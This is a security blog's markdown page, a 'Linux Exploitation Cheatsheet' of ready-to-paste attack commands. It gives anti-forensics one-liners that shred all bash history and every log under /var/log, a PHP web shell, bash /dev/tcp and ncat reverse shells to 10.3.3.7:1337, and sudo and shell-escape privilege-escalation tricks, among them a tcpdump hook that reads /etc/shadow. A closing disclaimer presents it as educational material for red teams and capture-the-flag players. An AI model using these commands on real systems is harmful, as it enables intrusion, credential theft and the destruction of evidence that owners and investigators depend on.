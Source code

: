 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
categories:
- Security
author: Kirin
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

\- Mac Spoofing -  
`ip link set dev eth0 down`  
`ip link set dev eth0 address <mac>`  
`ip link set dev eth0 up`  

\- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

\- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

\- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

\- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

\- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

\- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

\- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

\- Perl -  
`perl —e 'exec "/bin/sh";'`  

\- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

\- Lua -  
`lua: os.execute('/bin/sh')`  

\- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

\- Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

\- Git -  
`sudo git help status` - then type `!/bin/bash`  

\- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

\- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

\- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  
